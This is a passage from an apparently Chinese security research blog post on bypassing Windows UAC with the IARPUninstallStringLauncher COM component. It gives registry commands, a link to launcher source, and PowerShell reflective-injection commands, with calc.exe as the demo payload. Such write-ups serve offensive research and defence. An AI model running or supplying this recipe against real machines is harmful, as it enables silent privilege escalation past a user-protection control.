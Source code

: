```
$PEBytes = [IO.File]::ReadAllBytes('c:\\test\\IARPUninstallStringLauncher.exe')
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "payload"
```

其中参数payload对应注册表项`HKEY_USERS\[sid]\Software\Microsoft\Windows\CurrentVersion\Uninstall\payload`，其中的键"UninstallString"存储要执行的程序路径

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-5-22/3-1.png)

通过powershell执行Invoke-ReflectivePEInjection.ps1，在powershell.exe的内存中加载IARPUninstallStringLauncher.exe，以高权限调用COM组件，由于powershell.exe为可信进程，所以能够直接绕过UAC

**注：**

实际测试的一个小bug，在执行完payload后，powershell进程在退出时会弹框报错，提示内存不可读，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-5-22/3-2.png)

一个最简单的解决方法：

在脚本Main函数末尾加1

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-5-22/3-3.png)


完整利用方式：

1、新建注册表，并写入要执行的程序路径，命令如下：

```
REG ADD "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Uninstall\payload" /v UninstallString /t REG_SZ /d "c:\windows\system32\calc.exe" /f
```

2、编译IARPUninstallStringLauncher.exe

源码地址：

https://github.com/3gstudent/Use-COM-objects-to-bypass-UAC/blob/master/IARPUninstallStringLauncher(argv).cpp

3、通过powershell脚本加载exe并传入参数，powershell命令如下：


```
$PEBytes = [IO.File]::ReadAllBytes('c:\\test\\IARPUninstallStringLauncher.exe')
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "payload"
```

**注：**

原脚本Main函数末尾记得加1，防止报错


## 0x04 小结
---

本文介绍了通过COM组件IARPUninstallStringLauncher绕过UAC的方法，分享多种利用方式(修改PEB模拟成explorer.exe+以powershell.exe加载exe)，得出结论：只要以(或者模拟成)可信的进程(如explorer.exe、powershell.exe)，加载高权限的COM组件不会弹出UAC的对话框。



---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)

